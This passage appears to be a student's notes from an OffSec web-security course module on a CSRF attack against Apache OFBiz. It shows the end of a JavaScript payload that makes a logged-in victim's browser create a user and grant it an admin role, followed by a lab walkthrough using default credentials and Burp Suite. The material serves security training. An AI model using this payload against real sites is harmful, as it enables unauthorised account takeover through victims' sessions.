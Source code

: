 ```js
      mode: 'no-cors',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body : create_params
    }).then(function(response) {
      send_admin();
    }); 
  }

  // Function to add admin role
  function send_admin() { 
    console.log("Adding admin role..."); 
    fetch(host + admin_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body : admin_params
    }).then(
      console.log("Should be done...") 
    );
  }

  // Call the create function to start the process
  send_create();
</script>
</head>
<body></body>
</html>
```

We're using the Fetch API to send our POST requests in the "no-cors" mode. This restricts us to using "application/x-www-form-urlencoded" as our Content Type, which should be fine since the baseline request used that value. We'll set _credentials_[1](https://portal.offsec.com/courses/web-200-28380/learning/cross-origin-attacks-30961/case-study-apache-ofbiz-31285/revising-the-csrf-payload-30976#fn-local_id_314-1) to "include" to instruct the browser to send cookies on the request. Despite this setting, there are situations where the browser might not send cookies on a request depending on the CORS settings of the requested domain and the _SameSite_ attribute of any cookie. We'll explore CORS later on in this Learning Module.

Once again, we need to have an active session in OFBiz before loading our CSRF page.

Let's check in Burp Suite to determine if our JavaScript worked and made our browser send the requests.

**Exploit start**

login with `admin:ofbiz`
![[Pasted image 20240813163553.png]]
Open a new tab and enter `http://192.168.45.175/ofbiz2.html`
![[Pasted image 20240813163703.png]]
upon hitting enter the page goes blank
![[Pasted image 20240813163804.png]]
It seems that our browser did not include any cookies on the request. Let's check our browser's console for any errors. We can open it with the shortcut `CTRL + SHIFT + I` and then clicking _Console_.
![[Pasted image 20240813163925.png]]
Some messages were moved to the Issues panel. Let's click on _View issues_ to get more details and then click on the disclosure widgets to expand the details and affected cookies.